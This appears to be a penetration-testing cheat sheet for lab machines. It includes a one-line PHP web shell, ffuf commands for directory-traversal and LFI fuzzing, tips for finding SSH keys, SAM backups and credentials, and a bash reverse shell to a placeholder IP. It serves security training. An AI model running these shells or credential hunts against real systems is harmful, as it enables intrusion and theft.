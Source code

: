 ```php
# Can use this simple shell or find one of your own.
<?php system($_GET["cmd"]); ?>
```

Can use the **PHP Ivan Sincek** one from [revshells.com](https://www.revshells.com), might get you *access as the service user* in Windows. Service users have SeImpersonatePrivilege.

With directory traversal, check alternatives for id_rsa such as `id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, and id_dsa`.

If you suspect directory traversal/LFI, but can't make it work, throw ffuf and these lists at it:

https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/dirTraversal-nix.txt
https://github.com/emadshanab/LFI-Payload-List

```shell
# Run first without -fs to figure out what response size you need to filter.
ffuf -u http(s)://<IP>/<proper page/parameter>=FUZZ -w dirTraversal-nix.txt -fs 0

ffuf -u http(s)://<IP>/<proper page/parameter>=FUZZ -w LFI-payloads.txt -fs 0
```
### General Reminders

Connect with Netcat to any weird open ports and try running `help` or playing around.

Check for **FTP anonymous login** and **SMB null session** (no creds, Guest without password).

Try anything that even remotely resembles a password in files. Be mindful of any possible lockout policy for AD.

Check *environment variables* for credentials.

Run **linpeas and winpeas**, depending on the host, keep an eye out for anything that's out of place and wouldn't be on the machine by default.

If it's not working when it seems like it should be, just revert the machine.

Try different protocols with `netexec/crackmapexec` - **smb, winrm, rdp**, **mssql**, **ssh**. Check for winrm and rdp access even for random low-level users. Always check with and without `--local-auth`. 

Always check user privileges with `whoami /priv` and `sudo -l`.

Check all directories of current user, `C:\`, look for .txt files, look for old backups of SAM and SYSTEM. 

Try username as password. Try capital first letter.
#### Reverse Shells

Feel free to use [revshells.com](https://www.revshells.com) to save yourself time.

Always try **ports 80,443,445 first** to avoid getting blocked by firewall.

- when getting a reverse shell on Windows, use nc.exe because it’s the most stable. First command to upload, second command to get shell
- on Linux, first try

```shell
/bin/bash -c "bash -i >& /dev/tcp/<ip>/443 0>&1"
```
